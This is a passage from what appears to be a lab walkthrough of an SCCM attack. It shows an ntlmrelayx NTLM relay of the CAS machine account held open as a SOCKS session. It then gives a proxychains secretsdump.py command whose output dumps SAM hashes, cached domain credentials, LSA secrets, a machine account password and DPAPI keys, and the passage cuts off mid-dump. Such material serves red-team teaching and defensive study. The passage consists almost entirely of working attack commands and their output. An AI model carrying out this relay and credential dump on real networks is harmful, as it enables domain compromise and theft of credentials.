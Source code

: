     After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the site server and the authenticated session is held open:
    ```
    [*] Setting up RAW Server on port 6666
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.23, attacking target smb://10.10.100.22
    [*] Authenticating against smb://10.10.100.22 as LAB/CAS$ SUCCEED
    [*] SOCKS: Adding LAB/CAS$@10.10.100.22(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.23 controlled, but there are no more targets left!
    socks
    Protocol  Target        Username  AdminStatus  Port
    --------  ------------  --------  -----------  ----
    SMB       10.10.100.22  LAB/CAS$  TRUE         445
    ntlmrelayx>
    ```

 4. Proxy `secretsdump.py` in the context of the CAS through the authenticated session to recover the primary site server's hashed credential:
    ```
    └─# proxychains secretsdump.py 'lab/cas$@10.10.100.22' -no-pass
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.22:445  ...  OK
    [*] Target system bootKey: 0x591d0e9f4a35be400e905f0a738f3293
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c566fb8d8483e6965f3b84bfce924e68:::
    [*] Dumping cached domain logon information (domain/username:hash)
    INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42: (2024-02-04 02:22:11)
    INTERNAL.LAB/sqlsvc:$DCC2$10240#sqlsvc#e12866f9a8777ddbe39ae1380ac6346c: (2024-02-03 07:49:42)
    INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42: (2024-02-04 03:52:56)
    INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42: (2024-02-04 04:07:52)
    INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42: (2024-03-05 21:42:14)
    [*] Dumping LSA Secrets
    [*] $MACHINE.ACC
    LAB\SCCM2$:aes256-cts-hmac-sha1-96:c9d883ed8440db8e0d93f304515d30a1ff6e888bad955852de479c0315717244
    LAB\SCCM2$:aes128-cts-hmac-sha1-96:aabcd69243a242d257672af66c042866
    LAB\SCCM2$:des-cbc-md5:d65d37231697ea34
    LAB\SCCM2$:plain_password_hex:0ccdb44e2241dea6ba1082fa4633eec08d86b943e9f7e6fed95165da6f3c3e9ed4d1b89b498a680fb90470bae441e68e72ae3b0b38b434f9516765d369a7d0d720307bf92d7c578655663f8aa9dc9a21168cbf51f5220b7962ce1f472b764a4e998b68f7af8cfa4206cf8b6367da9738ff0387d149febc6be6a3b98b4a9065011770a479e114dd9cd31da1ec47bb3299afb51b00b7cf40d2c98b415cd86b914cdb5cde6b5a38ee42ad395f53bd3c1cb98d246199d3513ad3003e3117fef88d3c7dd177e0af4d3ff89621f5e4ec36c84b18ee2a8d12aa2372622cd7b0e726adf273ab167b29a432b5100da5f7beeafbdc
    LAB\SCCM2$:aad3b435b51404eeaad3b435b51404ee:2e510487c6db715d8f0c5bea67d9e27d:::
    [*] DPAPI_SYSTEM
    dpapi_machinekey:0x7848d7d7769ac8bc4079e9958d33f241f5b3a745
    dpapi_userkey:0x23789fd52652665f635839e916568e8d5fd2796b
    [*] NL$KM
    0000   9D DD 9E 8D BC 07 08 85  00 B7 A8 EB 0E A0 5C E2   ..............\.
    0010   76 73 18 C4 74 EC BB 59  37 B1 95 56 2E 1B 33 85   vs..t..Y7..V..3.
    0020   13 26 52 8B D9 28 48 47  78 2A C3 97 71 2B E5 A6   .&R..(HGx*..q+..